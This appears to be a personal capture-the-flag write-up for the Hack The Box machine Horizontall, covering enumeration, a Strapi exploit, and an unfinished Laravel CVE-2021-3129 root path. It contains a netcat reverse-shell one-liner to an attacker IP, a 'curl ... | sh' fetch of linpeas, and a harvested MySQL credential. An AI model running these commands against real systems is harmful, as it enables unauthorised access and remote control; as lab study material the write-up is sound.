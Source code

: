 Box Info Horizontall.htb
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned::  
SSH, nginx, reverse shells \
CVE-2019-18818, CVE-2019-19609, CVE-2021-3129 

---
**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See ![strapi_version](Screenshots/strapi_verison_find.png)
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see ![broken shell](Screenshots/strapi_exploit_broken_shell.png)
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see ![creds](Screenshots/strapi_exploit_broken_shell.png)
 + File upload present in admin portal.
   + try to upload reverse shell::
   1)`$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 1337 >/tmp/f` see ![Shell](Screenshots/strapi_shell.png)
   2) `nc -lnvp <lister port> :: $whoami strapi` 
   3) /home/developer/user.txt

---
Root::
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: 

+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see ![horizontal_ports](Screenshots/linpeas_ports_horizontall.png)
```
UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit
    exploit: CVE-2021-3129_exploit
```
TODO::
import requests:
no module requests available 

---
**References::
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)
[walkthrough](https://burakozlu.medium.com/horizontall-walkthrough-htb-250182ab0721)